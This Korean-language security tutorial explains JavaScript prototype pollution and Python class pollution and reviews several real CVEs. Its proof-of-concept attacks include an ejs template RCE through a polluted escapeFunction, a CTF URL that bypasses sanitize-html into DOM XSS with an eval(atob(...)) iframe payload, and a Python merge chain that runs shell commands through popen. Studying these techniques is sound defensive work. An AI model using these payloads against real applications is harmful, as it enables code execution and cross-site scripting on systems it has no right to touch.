


# 최종본

***By Knights of the SPACE 가세혁(dpp), 김다희(lxnee), 박진완(realsung), 정성훈(HunSec)***

# **BackGround**

# Class Pollution 취약점 소개 전에 알아야 할 배경지식

- **Class Pollution 취약점을 설명하기 전에 반드시 짚고 넘어가야 할 핵심 개념입니다.**
- **JavaScript는 객체지향 언어이며, 모든 동작이 객체를 기반으로 이루어집니다.**
- **실제로 JavaScript를 구성하는 거의 모든 요소가 객체입니다.**

## 객체란?

- **이름(Key)과 값(Value)으로 구성된 속성들의 집합**입니다.
- **아래 객체 예시**를 확인해 보시기 바랍니다.

### **person 객체**

```python
const person = {
  name: "지수",         // key: name, value: "지수"
  age: 24,              // key: age, value: 24
  isStudent: true       // key: isStudent, value: true
};
```

## 속성이란?

- 객체(Object) 안에 있는 **"이름(key)"과 "값(value)"의 쌍**을 의미합니다.

```python
const user = {
  name: "지수",       // name: 속성
  age: 25             // age: 속성
};
```

- name, age → **속성** 이름 (key)
- "지수", 25 → **속성** 값 (value)

## 메소드란

• **객체 안에 정의되거나 객체에 속하는 함수**를 의미합니다.

### 메소드와 함수의 차이

- **메소드**: 객체를 통해 호출되는 함수
- **함수**: 객체 없이 독립적으로 호출되는 함수

**메소드**

```jsx
const obj = {
  greet: function() {
    console.log("안녕!");
  }
};
obj.greet(); 
```

**함수**

```jsx
function greet() {
  console.log("안녕!");
}
greet(); 
```

## Prototype

JavaScript는 전통적인 클래스(Class) 기반 상속과 달리, **Prototype(프로토타입) 기반 상속**을 사용합니다.

**Prototype**은 타 언어와 구별되는, JavaScript만의 핵심 개념 중 하나입니다.

> Prototype은 JavaScript에서 **객체가 다른 객체로부터 속성과 메소드를 상속받기 위한 메커니즘**입니다.
쉽게 말해, **Prototype은 유전자와 같은 역할**을 한다고 이해하면 좋습니다.
> 

### Prototype의 이해

```jsx
const user = {
  sayHi() {
    console.log("안녕!");
  }
};

**const admin = Object.create(user);  // user를 prototype으로 지정**
admin.name = "관리자";

admin.sayHi();  // 👉 "안녕!"  ← **user에서 상속받은 메서드**
```

`admin` 객체는 `user` 객체를 **Prototype으로 삼고** 있기 때문에,

`admin` 자체에 `sayHi()` 메소드가 없어도 **Prototype Chain**을 따라

`user.sayHi()`를 찾아 호출할 수 있습니다.

### **Prototype 구조 요약**

- **부모 객체의 prototype (유전자)**
    - **자식에게 물려줄 메소드**를 정의하는 전용 공간입니다.
    - 예시:
    
    ```jsx
    Parent.prototype.sayHello = function () {
      console.log("안녕하세요!");
    };
    ```
    
- **자식 객체의 __proto__(내부 유전자에 접근하기)**
    - 객체가 생성될 때, **부모의 prototype을 참조해 저장**됩니다.
    - 이를 통해 **부모로부터 상속된 메소드와 속성**에 접근할 수 있습니다.

### __**proto__**

모든 객체는 **`__proto__`** 속성을 통해 자신의 **Prototype Chain(프로토타입 내부 구조)**에 접근할 수 있습니다

### **prototype 예시**

```jsx
function Person(name) {
  this.name = name;
}
Person.prototype.sayHello = function() {
  console.log("안녕, 나는 " + this.name);
};

const p1 = new Person("지수");
p1.sayHello();  // 👉 "안녕, 나는 지수"

```

- `p1` 객체는 `Person.prototype`을 **프로토타입으로 삼아** 메서드를 상속받습니다.
- 따라서 `p1` 자체에는 `sayHello`가 없지만, **Prototype Chain을 통해** `Person.prototype.sayHello`를 호출할 수 있습니다.

## JavaScript 상속

JavaScript는 **Class 기반 상속**이 아닌,

**Prototype 기반 상속**을 통해 객체 간 연결로 상속을 구현합니다.

이때 사용되는 주요 요소는 다음과 같습니다:

- `Object`
- `__proto__`
- `Object.create()`

즉, 객체가 다른 객체를 **프로토타입으로 삼아 속성과 메소드를 상속**받는 구조입니다.

### JavaScript: Prototype 기**반 상속**

```jsx
const parent = {
  sayHi() {
    console.log("안녕!");
  }
};

const child = Object.create(parent);
child.name = "지수";

child.sayHi();  // 👉 parent에서 상속받은 메서드

```

### Python: Class **기반 상속**

```jsx
class Parent:
    def say_hi(self):
        print("안녕!")

class Child(Parent):  # 상속
    def __init__(self, name):
        self.name = name

c = Child("지수")
c.say_hi()  # 👉 Parent에서 상속받은 메서드

```

---

# Prototype pollution

## Prototype Pollution이란

**Prototype Pollution**은 공격자가 객체의 `Prototype`(`Object.prototype`)에 접근하여 **임의의 속성을 추가하거나 덮어쓸 수 있게 되는 JavaScript 취약점**입니다.

이 취약점은 애플리케이션이 사용자 입력을 **적절히 검증하지 않고 객체에 병합(merge) 또는 확장(extend)**할 때 발생하며,

다른 보안 취약점으로 쉽게 이어질 수 있습니다.

### 위험성

- **클라이언트 측(JavaScript)**:
    
    → **DOM XSS**(Document Object Model 기반 Cross-Site Scripting)로 이어질 수 있음
    
- **서버 측(Node.js 등)**:
    
    → **RCE**(Remote Code Execution) 같은 심각한 취약점으로 악용 가능
    

Prototype Pollution을 실질적으로 활용하려면 **Prototype에 접근하는 다양한 방법**을 이해하는 것이 중요합니다.

2024년 7월 10일, Ark는 X(구 Twitter)에

**“Tips: 7 ways to access `__proto__` in JavaScript”**라는 제목으로

관련 내용을 소개한 바 있습니다.

[https://x.com/arkark_/status/1943260773268230205](https://x.com/arkark_/status/1943260773268230205)

위와 같이 **7가지 방법**으로 `prototype`에 접근할 수 있습니다.

그러면 **Prototype Pollution(PP)**은 주로 **어떤 상황에서 발생**할까요?

*(이제부터 설명의 용이성을 위해 Prototype Pollution을 PP라 표기하겠습니다.)*

**일반적으로 PP는 다음과 같은 상황에서 주로 발생**합니다.

```jsx
const obj = {};
const credential = {};

INPUT1 = '__proto__';
INPUT2 = 'admin';
INPUT3 = true;
obj[INPUT1][INPUT2] = INPUT3;

if (credential.admin) console.log('Hello Admin');
// Output : Hello Admin
```

위 예시처럼, **사용자의 입력값이 객체의 키로 사용되고**,

또한 **해당 키에 할당되는 값(INPUT3)까지 조작할 수 있는 경우**,

**PP**가 발생하게 됩니다.

이러한 방식으로 공격자는 내부 객체(`credential` 등)의 **속성을 간접적으로 조작**하여,

**원래 허용되지 않은 동작을 유도**할 수 있습니다.

예제에서는 `credential` 객체에 `admin` 속성이 없었지만,

`Object.prototype.admin`에 `true`가 설정되면서

모든 객체에서 `admin` 속성이 존재하는 것처럼 동작하게 됩니다.

## 공격 예시

### **Prototype Pollution → RCE 사례**

서버 사이드에서 **PP**가 발생할 경우,

**원격 코드 실행(RCE)**로 이어질 수 있다는 점을 보여주는 좋은 사례입니다.

> (이해를 돕기 위해 PP를 코드에 직접 삽입하였지만, 실제로는 사용자 입력을 통해 충분히 동일한 상황이 발생할 수 있습니다.)
> 

- **모듈**: `ejs` (Embedded JavaScript templating)
- **버전**: `3.1.6`

```jsx
// app.js
const express = require('express');
const app = express();
const PORT = 3000;
app.set('views', __dirname);
app.set('view engine', 'ejs');

Object.prototype.client = 1;
**Object.prototype.escapeFunction = 'function(){};console.log(process.mainModule.require("child_process").execSync("dir").toString())';**

app.get('/', (req, res) => {
    res.render('index');
});

app.listen(PORT, () => {
    console.log(`Server is running on ${PORT}`);
});
```

`process.mainModule.require("child_process").execSync("dir").toString()` 구문을 통해 
서버에서 명령어가 실행되고, 결과가 출력됩니다.


---

### **Prototype Pollution → DOM XSS**

**L3akCTF 2025**에서 출제된 [**NotoriousNote**](https://ctf.l3ak.team/challenges#NotoriousNote-64) 문제는
**Prototype Pollution을 통해 DOM XSS로 이어질 수 있음을 보여주는 좋은 사례**입니다.

### index.js 코드 분석

```jsx
// index.js
document.addEventListener('DOMContentLoaded', function() {
    const [_, query] = [window.location, QueryArg.parseQuery(window.location.search)];
    const { note: n } = query;

    const actions = [
        () => console.debug(n), 
        () => {
            const el = document.getElementById('notesPlaceholder');
            if (n) {
                const renderNote = txt => `<div class="note-item">${sanitizeHtml(txt)}</div>`;
                el.innerHTML += renderNote(n);
            }
        }
    ];

    actions.forEach(fn => fn());
});
```

- `QueryArg.parseQuery(window.location.search)`를 통해 쿼리 파라미터를 파싱합니다.
- `note` 파라미터가 존재하면 `sanitizeHtml`을 거쳐 렌더링됩니다.
- 하지만 **파서(QueryArg)** 자체가 **Prototype Pollution에 취약**하게 구현되어 있습니다.

### 🛠 QueryArg 내부 구현 (발췌)

```jsx
(function(global){
  global.MakeQueryArg = function(){
			...
			
      switch (selector.charAt(selectorBreak)) {
        case '[':
          obj[currentRoot] = obj[currentRoot] || [];
          nextSelector = nextSelector.replace(']', '');

          if (nextSelector.search(/[\.\[]/) === -1 && nextSelector.search(/^[0-9]+$/) > -1) {
            nextSelector = parseInt(nextSelector, 10);
          }

          return QueryArg._qaAccess(obj[currentRoot], nextSelector, value);
       
		...
```

- 위 로직은 `__proto__`, `constructor` 등의 위험한 키워드에 대한 **검증 없이** 객체에 직접 접근하고 값을 할당합니다.
- 이로 인해 `?__proto__[a]=1` 과 같은 쿼리가 **Prototype Pollution**을 유발합니다.

[http://34.134.162.213:17002/?__proto__[a]=1](http://34.134.162.213:17002/?__proto__[a]=1) 해당 링크를 통해서 PP를 확인할 수 있습니다.
 


### sanitize-html 우회

- `sanitize-html`은 NPM에서 제공하는 HTML sanitizer 모듈입니다.
- 하지만 prototype이 오염되면 이 필터도 우회할 수 있습니다.

`sanitizeHtml prototype pollution` 을 검색하면 [유용한 링크](https://www.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers.html)가 나옵니다.


따라서 아래와 같이 접근하여 문제를 해결할 수 있습니다.

```
http://127.0.0.1:5000/?note=%3Ciframe%20onload=eval(atob(%22BASE64 인코딩된 페이로드%22))%3E&__proto__[*][0]=onload
```

`__proto__[*][0]=onload`를 통해 **모든 태그의 첫 번째 속성이 `onload`로 오염**됩니다.

• `note` 값에 `<iframe onload=...>` 구문을 주입하면, sanitizer가 우회되고 **DOM XSS 실행**에 성공합니다.

### 관련 워게임

[https://dreamhack.io/wargame/challenges/205/](https://dreamhack.io/wargame/challenges/205/)

[https://dreamhack.io/wargame/challenges/468/](https://dreamhack.io/wargame/challenges/468/)

[https://dreamhack.io/wargame/challenges/643/](https://dreamhack.io/wargame/challenges/643/)

[https://dreamhack.io/wargame/challenges/1678](https://dreamhack.io/wargame/challenges/1678)

---

# class pollution

## class pollution 이란

일반적으로 JavaScript 환경에서는 **Prototype Pollution** 취약점이 발생합니다.

하지만 **Prototype이 존재하지 않는 Python 환경**에서도 **유사한 취약점이 발생할 수 있습니다.**

### 정확히 말하면

- Python에는 **Prototype** 개념이 없지만,
- **Class 기반 상속 구조**가 **Prototype과 유사하게 작동**하기 때문에
- Python에서도 이와 유사한 취약점을 재현할 수 있습니다.

이러한 취약점을 우리는 편의상

**"Prototype Pollution in Python"** 또는 **"Class Pollution"** 이라고 부릅니다.

## Python의 Class Pollution은 어떻게 발생할까?

Python 환경에서 발생하는 **Class Pollution 취약점**은 주로

**Magic Method (또는 Dunder Method, Special Method)** 를 악용해 이루어집니다

### Magic Method란?

- **Magic Method**는 **메소드 이름의 양쪽에 `__`(언더스코어 두 개)***를 붙인 형태로
    
    Python 클래스 내부에서 특별한 동작을 정의할 수 있게 해주는 **내장 특수 메소드**입니다.
    
- 대표적인 예시: **__str__(), __call__(), __getitem__(), __setattr__(), __delattr__() ...**
- 객체가 특정 작업(연산자 사용, 출력, 호출 등)과 함께 사용될 때
    
    **어떤 동작을 수행할지 정의**하는 역할을 합니다.
    
    ## Prototype Pollution vs Class Pollution
    
    | 항목 | JavaScript (Prototype Pollution) | Python (Class Pollution) |
    | --- | --- | --- |
    | 기반 구조 | Prototype 기반 상속 | Class 기반 상속 |
    | 속성 오염 방식 | 자유롭게 `__proto__` 등 조작 가능 | `__class__`, `__base__` 접근은 제한적 |
    | 오염 활용 방식 | 객체 전체에 영향을 미치는 속성 삽입 | Magic Method를 통한 동작 정의 조작 |
    | 공격 유연성 | 높음 | 상대적으로 낮지만 가능 |

## Class Pollution 예시 코드

### 예시 1: 런타임 중 메소드 오버라이드

```python
python
복사편집
class Dog:
    def bark(self):
        print("멍멍!")

dog = Dog()
dog.bark()  # 출력: 멍멍!

# 런타임 중 메서드 오버라이드
def new_bark(self):
    print("왈왈!!")

dog.bark = new_bark.__get__(dog)
dog.bark()  # 출력: 왈왈!!

```

> ✅ 실행 중인 인스턴스 dog의 메소드 bark()를 동적으로 오버라이드할 수 있습니다.
> 
> 
> 이는 Python 객체의 구조가 얼마나 유연하게 열려 있는지를 보여줍니다.
> 

### 예시 2: 클래스 vs 인스턴스 속성 오염

```python
class Employee: pass  # 빈 클래스 정의

emp = Employee()         # 인스턴스 1
another_emp = Employee() # 인스턴스 2

Employee.name = 'No one'     # 클래스 속성 추가
print(emp.name)              # 출력: 'No one' (클래스에서 상속)

emp.name = 'Employee 1'      # 인스턴스 속성 오버라이드
print(emp.name)              # 출력: 'Employee 1' (인스턴스 속성이 우선)

emp.say_hi = lambda: 'Hi there!'   # 인스턴스에 메서드 추가
print(emp.say_hi())                # 출력: 'Hi there!'

Employee.say_bye = lambda s: 'Bye!'  # 클래스에 메서드 추가
print(emp.say_bye())                 # 출력: 'Bye!'

Employee.say_bye = lambda s: 'Bye bye!'  # 메서드 덮어쓰기
print(another_emp.say_bye())             # 출력: 'Bye bye!'

```

**Employee.say_bye**와 같이 외부에서 **Class Method**를 조작하면 영향 받는 상황인 
Class Pollution이 발생합니다.

> 클래스의 속성을 수정하면, 해당 클래스를 기반으로 한 모든 인스턴스에 영향을 줄 수 있습니다.
> 
> 
> 이처럼 외부에서 **클래스 속성을 조작할 수 있는 구조**가 바로 Class Pollution입니다.
> 

## 공격자 관점에서 주의할 점

공격자의 입장에서는 **Magic Method보다는 속성 오염에 집중**해야 합니다.

### 그 이유는?

Magic Method를 잘못 덮어쓰면 **에러가 발생해 공격이 실패할 수 있기 때문**입니다.

예시로  **__class__**  속성을 직접 덮어봅시다.

### 예시: `__class__` 속성 덮어쓰기

```python
class Employee: pass # 빈 클래스 정의

emp = Employee()
emp.**__class__** = 'Polluted'

#> Traceback (most recent call last):
#>   File "<stdin>", line 1, in <module>
#> TypeError: __class__ must be set to a class, not 'str' object
```

- `emp.__class__`는 실제로 `Employee` 클래스를 참조합니다.
- 그런데 문자열 `'Polluted'`을 할당하려 하자, **TypeError가 발생**했습니다.

> **TypeError: __class__ must be set to a class, not ＇str＇ object**
> 

### 중요한 이유

- **속성 자체는 오염이 가능하지만**, 자료형이 맞지 않으면 오류가 발생합니다.
- 이 에러는 Python 내부적으로 해당 속성이 **덮어쓰기 가능한 구조임을 알려주는 좋은 단서**입니다.

이번에는 문자열을 허용하는 **__qualname__** 이라는 속성으로 진행해봅시다.

### `__qualname__` 이란?

- `__qualname__`은 Python 클래스나 함수의 **정규 이름(Qualified Name)**을 문자열로 담고 있는 속성입니다.
- 이 속성은 **문자열로 자유롭게 덮어쓰기 가능**하다는 특성을 가집니다.

### 예시 코드: `__qualname__` 속성 변경

```python
class Employee: pass  # 빈 클래스 정의

emp = Employee()
emp.__class__.__qualname__ = 'Polluted'

print(emp)
print(Employee)
```

### 출력 결과

> <**main**.Polluted object at 0x0000024765C48250>
<class '**main**.Polluted'>
> 

- `emp.__class__`는 `Employee` 클래스를 참조합니다.
- 즉, `emp.__class__.__qualname__ = 'Polluted'`은 결국
    
    → `Employee.__qualname__ = 'Polluted'` 과 **동일한 의미**입니다.
    
- 단순히 `emp` 인스턴스의 속성이 바뀐 것이 아니라,
    
    **`Employee` 클래스 자체의 `__qualname__` 속성**이 변경된 것입니다.
    
- 따라서 `emp`뿐만 아니라, **모든 Employee 인스턴스가 출력될 때 `Polluted`로 보이게 됩니다.**

## 다양한 class pollution 방법

### **`__base__` 속성을 이용한 Class Pollution**

- `__base__`는 클래스가 **직접 상속받은 가장 가까운 부모 클래스**를 가리킵니다.
- 이 속성을 통해 상속 구조를 따라 올라가며, **부모 클래스까지 오염(Class Pollution)** 시킬 수 있습니다.

### **`object` 클래스 오염 시도**

- Python의 **모든 클래스는 `object`를 최상위 부모 클래스로 상속**받습니다.
- 따라서 `object` 자체를 오염시킬 수 있다면,
    
    모든 인스턴스와 클래스에 영향을 줄 수 있어 **이론적으로는 강력한 공격 방식**입니다.
    

**하지만** 최상위 부모 Class인 Object Class를 오염시키는 건 **불가능합니다.**

**object.__qualname__ = 'Polluted'** 

> ㅡ> **TypeError: cannot set '__qualname__' attribute of immutable type 'object'**
> 

### object는 "불변 타입 (Immutable Type)" 이므로 불가능합니다.

Python 언어 특성상, 아래와 같은 **불변 타입(Built-in Immutable Types)**은

**속성 수정이 불가능**합니다:

- `object`
- `str`
- `int`
- `dict`
- `tuple`
- `float` 등

**Class Pollution의 대상이 될 수 없습니다.**

---

# Class Pollution 공격 예시

## 1. 부모 클래스 오염

```python
class Animal:
    species = "동물"

class Mammal(Animal):
    pass

class Dog(Mammal):
    pass

a = Animal()
m = Mammal()
d = Dog()

print(a.species)  # 동물
print(m.species)  # 동물
print(d.species)  # 동물

# 조상 클래스 오염 (Animal 오염)
d.__class__.__base__.__base__.species = "오염된 동물"

print(a.species)  # 오염된 동물
print(m.species)  # 오염된 동물
print(d.species)  # 오염된 동물
```

`__base__.__base__`를 통해 `Dog → Mammal → Animal` 순서로 올라가

`Animal` 클래스의 속성 `species`를 오염시킵니다.

---

## `__class__` 속성을 통한 병합 기반 Pollution

```python
class Animal: 
    pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 오염용 입력
animal_info = {
    "species": "고양이",
    "age": 4,
    "owner": {
        "name": "민수"
    },
    "__class__": {
        "__qualname__": "Polluted"
    }
}

a = Animal()
merge(animal_info, a)

print(vars(a))                  # {'species': ..., 'age': ..., ...}
print(a)                        # <__main__.Polluted object at ...>
print(a.__class__.__qualname__)# Polluted
print(Animal.__qualname__)     # Polluted
```

📌 `merge()`를 통해 `__class__.__qualname__` 값을 변경하여

출력 시 객체 타입명이 `"Polluted"`로 바뀌는 것을 확인할 수 있습니다.

---

## 명령 실행을 유도하는 오염 체인

```python
from os import popen

class Employee: pass
class HR(Employee): pass
class Recruiter(HR): pass

class SystemAdmin(Employee):
    def execute_command(self):
        command = self.custom_command if hasattr(self, 'custom_command') else 'echo Hello there'
        return f'[!] Executing: "{command}", output: "{popen(command).read().strip()}"'

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

# 오염용 payload
USER_INPUT = {
    "__class__": {
        "__base__": {
            "__base__": {
                "custom_command": "whoami"
            }
        }
    }
}

recruiter_emp = Recruiter()
system_admin_emp = SystemAdmin()

print(system_admin_emp.execute_command())
# [!] Executing: "echo Hello there", output: "Hello there"

# 병합을 통해 조상 클래스 오염 시도
merge(USER_INPUT, recruiter_emp)

print(system_admin_emp.execute_command())
# [!] Executing: "whoami", output: "abdulrah33m"
```

### 클래스 구조



### 오염 경로



---

### **📚 참고 자료**

https://medium.com/@edgenask/bauhinia-ctf-2023-17fe1b00a398

https://github.com/jmoraissec/ctf-class-pollution

https://blog.abdulrah33m.com/prototype-pollution-in-python/

https://www.cyberdonald.com/post/downunderctf-web-co2

https://www.offensiveweb.com/docs/programming/python/class-pollution/

https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.html

---

# Real-World Case

## **Real-World Case: Prototype Pollution**

### **1. tough-cookie 라이브러리 취약점**

- **라이브러리명:** `tough-cookie`
- **영향 버전:** v0 ~ v4.1.3 이전
- **취약점 ID:** `CVE-2023-26136`, `CWE-1321`
- **심각도:** Medium (CVSS 6.5)
- **바운티:** N/A

### 라이브러리 개요

`tough-cookie`는 Node.js 환경에서 RFC6265 쿠키 표준을 구현한

**쿠키 저장 및 관리용 라이브러리**입니다.

하지만 4.1.3 이전 버전에서는 옵션 설정에 따라 **Prototype Pollution**이 발생할 수 있었습니다

## 취약점 상세 분석

### 오염 조건

- `CookieJar` 객체 생성 시 옵션:
    
    ```jsx
    { rejectPublicSuffixes: false }
    
    ```
    
- 이 설정은 `.com`, `.co.kr` 같은 **공개 접미사(Public Suffix)** 도메인에도 쿠키를 설정할 수 있도록 허용합니다.
- 이로 인해 도메인 값으로 **`__proto__`** 같은 특수 속성도 허용되어,
    
    **Object.prototype**에 의도치 않게 접근하거나 값을 설정할 수 있게 됩니다.
    
    • __proto__는 JavaScript에서 Object.prototype 체인을 조작할 수 있는 특수 속성입니다.
    

### 🧾 취약한 예제 코드

```jsx
const tough = require("tough-cookie");
const cookiejar = new tough.CookieJar(undefined, { rejectPublicSuffixes: false });

await cookiejar.setCookie(
  "Slonser=polluted; Domain=__proto__; Path=/notauth",
  "https://__proto__/admin"
);

console.log({}["/notauth"]["Slonser"]); // polluted
```

### 작동 원리

1. `setCookie()` 호출 시 `Domain=__proto__`로 설정된 쿠키를 저장합니다.
2. 쿠키 경로는 `/notauth`, 값은 `Slonser=polluted` 입니다.
3. 결과적으로 내부적으로 `Object.prototype["/notauth"]["Slonser"] = "polluted"` 와 같은 형태로 저장됩니다.
4. 이후 모든 객체에서 `/notauth` 경로에 접근하면, **Slonser 속성에 접근 가능**해지는 상황이 발생합니다.

### 공격 효과

- `Object.prototype`이 오염되므로,
    
    **전역 객체 전체에 영향을 줄 수 있는 치명적인 상황**으로 이어질 수 있습니다.
    
- 이는 실제 서비스에서 **권한 우회, 설정 우회, 쿠키 오용** 등으로 악용될 가능성이 있습니다.

> https://security.snyk.io/vuln/SNYK-DEBIANUNSTABLE-NODETOUGHCOOKIE-5759359
> 
> 
> [https://www.cve.org/CVERecord?id=CVE-2023-26136](https://www.cve.org/CVERecord?id=CVE-2023-26136)
> 
> https://nvd.nist.gov/vuln/detail/cve-2023-26136
> 
> https://security.snyk.io/vuln/SNYK-JS-TOUGHCOOKIE-5672873
> 
> [https://github.com/salesforce/tough-cookie/issues/282](https://github.com/salesforce/tough-cookie/issues/282)
> 

---

### **2. lodash 라이브러리 취약점**

- **라이브러리명:** `lodash`
- **영향 버전:** 모든 버전 (v4.17.12 이전)
- **취약점 ID:** `CVE-2019-10744`, `CWE-1321`
- **심각도:** High (CVSS 7.3)
- **바운티:** N/A

### 취약점 개요

`lodash`는 JavaScript에서 가장 많이 사용되는 유틸리티 라이브러리 중 하나입니다.

v4.17.12 이전 버전의 `lodash`에서는 `defaultsDeep()` 함수의 **재귀 병합(recursive merge)** 동작으로 인해

**Prototype Pollution** 취약점이 존재했습니다.

### **recursive merge란?**

- `defaultsDeep(target, source)`는 `source` 객체의 속성을 `target`에 **깊은 수준까지 복사**합니다.
- 속성 값이 객체일 경우, 내부 속성들도 **재귀적으로 병합**합니다.

❗ 이 과정에서 공격자가 `__proto__`, `constructor.prototype` 같은 **Prototype 경로**를 source에 포함시킬 경우,

`Object.prototype`이 직접 오염될 수 있습니다.

```jsx
const mergeFn = require('lodash').defaultsDeep;
const payload = '{"constructor": {"prototype": {"a0": true}}}';

function check() {
    mergeFn({}, JSON.parse(payload)); // 1. 취약점 트리거
    if (({})[`a0`] === true) { // 2. 오염 확인
        console.log(`Vulnerable to Prototype Pollution via ${payload}`);
    }
}

check();
```

1. `mergeFn({}, JSON.parse(payload))` 호출 시,
    - `constructor.prototype` 경로를 따라 접근하면서
    - 내부적으로 `Object.prototype.a0 = true`가 설정됩니다.
2. 이후 `({})['a0']`를 호출하면 `true`가 반환됩니다.
    
    즉, **새로운 빈 객체조차 오염된 prototype을 참조하고 있음**을 의미합니다.
    

📌 이 구조는 보통 `merge({}, userInput)` 형태의 클론이나 설정 병합 코드에서 자주 나타납니다

### 영향

- **Object.prototype**이 오염되면:
    - **전역 객체 전체가 공격자 의도대로 동작**할 수 있음
    - 인증 우회, 데이터 탈취, 설정 변조 등의 심각한 공격으로 이어질 수 있음

### 관련 링크

- [📄 Snyk Advisory (SNYK-JS-LODASH-450202)](https://security.snyk.io/vuln/SNYK-JS-LODASH-450202)
- [🔬 Snyk 연구 블로그](https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/)

---

## **Real-World Case: Class Pollution**

### **mesop – Python 기반 UI 프레임워크**

- **프로그램명:** `mesop`
- **영향 버전:** v0.14.0 이하
- **취약점 ID:** `CVE-2025-30358`, `CWE-915`
- **심각도:** High (CVSS 7.2)
- **버그바운티:** N/A

### 취약점 개요

`mesop`은 Python에서 UI를 구축하기 위한 프레임워크입니다.

v0.14.0 이하 버전에서는,

내부 함수 `_recursive_update_dataclass_from_json_obj()`에서 **Class Pollution** 취약점이 발견되었습니다.

### 문제의 원인

- 해당 함수는 **외부에서 입력된 JSON 데이터를 Python 데이터클래스 인스턴스에 재귀적으로 매핑**합니다.
- 그러나 이때, **`__dunder__` 속성(예: `__class__`, `__init__`, `__call__`)에 대한 필터링이 누락**되어 있었습니다.

```python
def _recursive_update_dataclass_from_json_obj(instance: Any, json_dict: Any):
    for key, value in json_dict.items():
        if hasattr(instance, key):
            attr = getattr(instance, key)
            if isinstance(value, dict):
                ...

```

- 위 코드에서 `key`에 대한 **선별적 필터링이 없기 때문에**,
    
    공격자가 `__dunder__` 속성을 포함한 JSON을 입력하면
    
    Python 내부 시스템 동작을 직접 제어하거나 파괴할 수 있습니다.
    
    ## 관련 링크
    

> https://security.snyk.io/vuln/SNYK-PYTHON-MESOP-9669339
> 
> 
> https://github.com/mesop-dev/mesop/commit/748e20d4a363d89b841d62213f5b0c6b4bed788f#diff-883b9c6a73562bf9cb21027f4afb7c018f0490c04467a69281a53758724dd71e
> 

---

### **django-unicorn – Class Pollution 취약점**

- **프로그램명:** `django-unicorn`
- **영향 버전:** 0.62.0 미만
- **취약점 ID:** `CVE-2025-24370`, `CWE-915`
- **심각도:** 🔴 Critical (CVSS 9.3)
- **버그바운티:** N/A

### 라이브러리 개요

`django-unicorn`은 Django 기반의 full-stack 프레임워크로,

**Livewire 스타일의 반응형 컴포넌트 기능**을 제공합니다.

그러나 0.62.0 이전 버전에서는 **`set_property_value()` 함수가 Class Pollution에 취약**했습니다.

### 취약 함수 분석

```jsx
def set_property_value(
    component,
    property_name,
    property_value
) -> None:
    ...
    property_name_parts = property_name.split(".")
    component_or_field = component
    ...
```

`set_property_value` 함수는 외부에서 전달된 값을 기반으로 **객체의 속성을 동적으로 수정**할 수 있도록 설계되어 있습니다.

이 함수는 **속성 경로를 점(`.`)으로 구분하여** 객체 내부의 중첩된 속성에 접근합니다.

공격자는 특정 컴포넌트에 대해 요청을 조작하고,

취약한 `set_property_value` 함수의 두 번째 매개변수(`property_name`)와

세 번째 매개변수(`property_value`)를 통해 **임의의 속성 수정 요청을 원격으로 트리거**할 수 있습니다.

이로 인해 Python 런타임 상태가 공격자가 의도한 대로 변경될 수 있으며,

이 취약점을 악용하는 방법은 **최소 5가지 이상** 공개되어 있습니다.

대부분의 Django-Unicorn 기반 애플리케이션에서 이 취약점은 다음과 같은 공격으로 이어질 수 있습니다:

- 🛑 **XSS (Cross-Site Scripting)**
- 🧨 **DoS (서비스 거부 공격)**
- 🔓 **인증 우회 (Authentication Bypass)**

### **공격 시나리오: 인증 우회**

